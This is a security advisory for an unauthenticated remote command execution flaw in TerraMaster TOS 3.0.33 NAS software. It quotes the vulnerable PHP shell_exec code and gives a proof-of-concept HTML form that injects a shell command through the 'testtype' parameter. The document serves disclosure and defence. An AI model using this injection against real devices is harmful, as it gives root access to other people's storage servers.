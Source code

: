 **Vulnerability Summary**<br>
The following advisory describes a unauthenticated remote command execution found in TerraMaster TOS 3.0.33.
TOS is a “Linux platform-based operating system developed for TerraMaster cloud storage NAS server. TOS 3 is the third generation operating system newly launched.”

**Credit**<br>
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Vendor response**<br>
The vendor stated that version 3.1.03 of TerraMaster TOS is no longer vulnerable to this vulnerability, the latest version of the software can be obtained from: http://download.terra-master.com/download.php.

**Vulnerability details**<br>
User controlled input is not sufficiently filtered and unauthenticated user can execute commands as root by sending a POST request to http://IP/include/ajax/GetTest.php with the following parameters:

* dev=1
* testtype=;COMMAND-TO-RUN;
* submit=Send

We can see in the source code that the value of parameter testtype will assign to $line and will execute by shell_exec()

```php
$file = "/mnt/base/.".basename($data['dev'])."test";
if(!file_exists($file)) touch($file);
if(isset($data['testtype'])){//开始或者停止过程...
if($data['testtype'] != 'stop'){
$line = $data['dev'].':'.$data['testtype'].":".time();
shell_exec("echo -e \"".$line."\" > $file");
}
$return = smartscan($data['dev'],$data['testtype']);
}else{//得到状态过程...
$return = smartscan($data['dev']);
}
```

**Proof of Concept**<br>
```html
<form method="post" action="http://IP/include/ajax/GetTest.php">
<input type="text" name="dev" value="1">
<input type="text" name="testtype" value='"; sleep 5; echo " '>
<input type="submit" value='Send'>
</form>
```
